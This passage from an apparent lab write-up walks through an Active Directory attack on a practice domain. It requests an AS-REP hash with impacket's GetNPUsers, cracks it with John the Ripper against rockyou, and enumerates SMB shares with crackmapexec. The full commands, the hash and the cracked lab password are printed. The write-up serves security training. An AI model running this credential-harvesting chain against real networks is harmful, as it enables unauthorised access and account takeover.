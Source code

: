 We can perform this attack with the `impacket` tool: `GetNPUsers.py`:

```zsh
❯ impacket-GetNPUsers spookysec.local/ -no-pass -usersfile users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:3e824fdf445fce1adf009c5c817ca6b0$8dcdc8d2dc9398fbb96c2669fc5a634a480731bcc0443fa4d4954d1dfafadef9c05858fc2632aa92ccf642526068cc5f426826b974d92f97a4acd27277cb38d58f10b3f8df932f33a2627bbf79a451cafd0cc4bbc7209fe19763f3cdf5ec7e333c41131b722e567ed5dc5b411807b7809929c8096a9ee071866ba75d787ea3b3fb06bb5ef9d0bd1e7fb8a72b0884da4faa791187fb71a39200670654e5b7df64dee1b245aaf458c5f3ca8742ca6270086aa2c46e686f2181115cd0e17e47bbdfded6239b005dadd7fb26ed1976626ae09e944711c97ee11b5c4c1ed97df08a3e202f0a1b8b70273d9eb3daa743b48d261924
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Ok! Great! So `svc_admin` was vulnerable to this type of attack. Now, with this hash in our possession, we can try to crack it with `john`:

```zsh
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)     
1g 0:00:00:09 DONE (2023-05-30 16:29) 0.1025g/s 598751p/s 598751c/s 598751C/s manaia05..man3333
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Great!!! So with these credentials on our possession, we can back to `crackmapexec` enumeration:

```zsh
❯ cme smb 10.10.128.202 -u svc-admin -p management2005 --shares
SMB         10.10.128.202   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.128.202   445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 
SMB         10.10.128.202   445    ATTACKTIVEDIREC  [+] Enumerated shares
SMB         10.10.128.202   445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.128.202   445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.128.202   445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.128.202   445    ATTACKTIVEDIREC  backup          READ            
SMB         10.10.128.202   445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.128.202   445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.128.202   445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.128.202   445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share 
```
